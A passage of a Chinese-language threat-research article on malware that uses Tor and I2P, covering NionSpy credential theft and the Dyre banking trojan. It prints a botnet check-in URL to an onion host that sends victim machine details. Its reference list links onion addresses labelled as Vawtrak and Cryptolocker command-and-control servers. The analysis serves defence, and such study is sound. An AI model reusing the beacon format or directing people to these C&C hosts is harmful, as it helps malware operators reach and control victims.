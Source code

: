 ![](http://drops.javaweb.org/uploads/images/8aed804144511e26cf9a593dd9fb0f7eb164f59a.jpg)

**Breakdown by Victims and Countries**

下面是一个有关恶意软件盗取机密信息的例子。在我们的搜索方法当中，我们使用一个最近和最短的时间窗口作为查询字符串，这样我们可以快点发现深网里面新的威胁。

在这个例子中，xu和xd两个参数在过去一周人气剧增。xu关联超过1700个的字典值并组成二进制对象文件。进一步观察发现，xu使用NionSpy窃取授权凭证（通常是网上银行等），然后收集键盘记录并发送到深网中。与此同时，xd用于注册感染新的僵尸网络。注册信息包含受害者机器名和操作系统版本号，通信的参数类似下面的JSON字符串：

```
[REDACTED]2xx.onion:80/si.php?xd={“f155”:”MACHINE IP”,”f4336”:”MACHINE NAME”,”f7035”:”5.9.1.1”,”f1121”:”windows”,”f6463”:””,”f2015”:”1”}

```

通过泄漏出来的数据收集分析注册相关的信息，构建显示每天新增的受害者图表。

![](http://drops.javaweb.org/uploads/images/19b99bd41b8e9a2cc5a0a9c4d21e21a1fc7b05cc.jpg)

**Automated Analysis on Prevalent Query-String Parameters**

![](http://drops.javaweb.org/uploads/images/2f4aa23ca11dd752b553a3f84f2e0f2c39293842.jpg)

**Number of new Infections (and Leaked data, in bytes) per day.**

最后值得一提的是：一款名为Dyre的木马将I2P作为C＆C服务器的备份选项。正常情况下则使用表网的DGA。这个木马作为一个BHO的MiTMs运行在浏览器的网上银行上。攻击者可以通过后门访问受到感染的受害者银行门户。DeWA介绍这个恶意软件的时候说到：在过去的6个月间，受到I2P感染的受害者的数量明显增加。

![](http://drops.javaweb.org/uploads/images/6e5690752c0bf9e34f35db8fe7f260859ebb0cca.jpg)

**Traffic to Dyre’s I2P infrastructure.**

参考：

1.  [http://blog.trendmicro.com/trendlabs-security-intelligence/the-mysterious-mevade-malware/](http://blog.trendmicro.com/trendlabs-security-intelligence/the-mysterious-mevade-malware/)
2.  [http://blog.trendmicro.com/trendlabs-security-intelligence/defending-against-tor-using-malware-part-1/](http://blog.trendmicro.com/trendlabs-security-intelligence/defending-against-tor-using-malware-part-1/)
3.  [http://blog.trendmicro.com/trendlabs-security-intelligence/defending-against-tor-using-malware-part-2/](http://blog.trendmicro.com/trendlabs-security-intelligence/defending-against-tor-using-malware-part-2/)
4.  [http://blog.trendmicro.com/trendlabs-security-intelligence/steganography-and-malware-why-and-how/](http://blog.trendmicro.com/trendlabs-security-intelligence/steganography-and-malware-why-and-how/)
5.  [Vawtrak / Neverquest C&C](http://4bpthx5z4e7n6gnb.onion/favicon.ico)
6.  [Cryptolocker C&C](http://ndvgtf27xkhdvezr.onion/)